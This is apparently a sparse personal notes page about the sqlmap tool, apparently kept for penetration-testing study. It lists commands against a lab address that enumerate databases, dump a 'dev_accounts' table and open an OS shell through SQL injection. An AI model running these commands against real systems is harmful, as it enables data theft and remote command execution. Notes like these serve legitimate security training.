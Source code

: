 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[sqlmap]]  
___

## Description:


## Installation


## Commands


```
sqlmap -u http://10.11.0.22/debug.php?id=1
```

Save the request from burp in the proxy tab by going to action, and then save item.

Then run sqlmap with the following (burp1 is the file saved from burp):
```

sqlmap -r burp1 --risk=3 --level=5 -databases --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch

```

Getting a shell:

```
 sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:22 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
